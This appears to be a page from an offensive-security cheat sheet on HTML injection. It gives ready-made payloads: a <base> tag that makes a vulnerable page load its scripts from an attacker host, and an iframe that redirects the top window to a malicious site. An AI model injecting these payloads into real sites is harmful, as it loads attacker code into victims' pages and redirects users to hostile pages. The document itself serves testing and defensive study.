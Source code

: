 # HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.

## iframe
The `<iframe>` tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

### Open redirect
Child document can view and set location property for parent, even if cross-origin top.window.location.
Inject an iframe to vulnerable-website.com:
```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```
where `https://malicious-website.com/toplevel.html` contains:
```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```
When the iframe is loaded, the parent will be redirected to the https://malware-website.com/pwned.html page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. .
